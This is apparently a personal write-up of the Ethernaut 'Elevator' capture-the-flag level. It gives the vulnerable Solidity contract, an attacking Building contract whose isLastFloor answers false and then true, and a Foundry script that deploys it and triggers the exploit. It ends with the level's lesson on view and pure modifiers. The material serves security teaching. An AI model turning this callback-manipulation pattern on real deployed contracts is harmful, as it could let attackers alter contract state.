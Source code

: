 ```yaml
---
title: "Elevator"
date: "2024-02-05"
lastmod: "2024-02-12T13:54:00.000Z"
draft: false
difficulty: "⭐⭐"
weight: 11
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/11"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "59c41c69-4afa-45c6-8e60-3000da840a2e"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T13:54:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel11.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text: []
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-05"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 11
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/11"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text: []
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Elevator"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator"
          href: null
  url: "https://www.notion.so/Elevator-59c41c694afa45c68e603000da840a2e"
  public_url: null
UPDATE_TIME: "2024-02-12T14:32:12.830Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


---


title: Elevator
weight: 4
type: docs
next: re-entrancy
prev: privacy


[Level11](https://ethernaut.openzeppelin.com/level/11) - ⭐⭐


---


This elevator won't let you reach the top of your building. Right?


### Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract Building {
  Elevator public elevator;
  bool lastFloor;

  function installElevator(address _elevator) public {
    elevator = Elevator(_elevator);  
  }

  function isLastFloor(uint) public returns (bool) {
    if (lastFloor == false) {
      lastFloor = true;
      return false;
    }
    return true;
  }

  function attack(uint _floor) public {
    elevator.goTo(_floor); 
  }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Building} from "../src/11.sol";

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_11");

        vm.startBroadcast(deployerPrivateKey);

        console.logUint(address(addr).balance);

        Elevator elevator = Elevator(addr);

        Building building = new Building();
        building.installElevator(addr);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        building.attack(0);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        vm.stopBroadcast();

    }
}
```


You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state.
Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.


An alternative way to solve this level is to build a view function 
which returns different results depends on input data but don't modify 
state, e.g. `gasleft()`.

